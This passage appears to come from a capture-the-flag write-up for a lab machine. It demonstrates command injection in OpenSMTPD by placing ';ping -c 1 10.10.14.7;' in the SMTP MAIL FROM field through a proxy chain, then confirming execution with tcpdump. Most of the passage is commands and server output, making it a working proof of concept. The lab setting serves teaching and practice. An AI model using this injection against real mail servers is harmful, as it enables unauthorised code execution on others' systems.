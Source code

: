 To test this, I'll use `nc` to try to `ping` my VM from the SMTP server.
I'll start `tcpdump` listening for ICMP, and then connect to the port:



    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf nc 10.241.251.113 25
    [proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
    220 smtp.realcorp.htb ESMTP OpenSMTPD



I'll enter `HELO` and then the payload in the `MAIL FROM`:



    HELO x
    250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
    MAIL FROM:<;ping -c 1 10.10.14.7;> 
    250 2.0.0 Ok



Next I need to enter the rest of the fields. But it fails on trying to
send to root:



    RCPT TO:<root>
    550 Invalid recipient: <root@smtp.realcorp.htb>



Luckily I had an email address from the Squid pages:



    RCPT TO:<j.nakazawa@realcorp.htb>
    250 2.1.5 Destination address valid: Recipient ok



Now the data. The top blank line is important, and then whatever I want
leading up to a line with just a `.`:



    DATA
    354 Enter mail, end with "." on a line by itself

    0xdf was here
    .
    250 2.0.0 b555d48d Message accepted for delivery



When it prints "Message accepted for delivery", ICMP packets arrive at
`tcpdump`:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    17:40:26.629737 IP 10.10.10.224 > 10.10.14.7: ICMP echo request, id 21, seq 1, length 64
    17:40:26.629760 IP 10.10.14.7 > 10.10.10.224: ICMP echo reply, id 21, seq 1, length 64

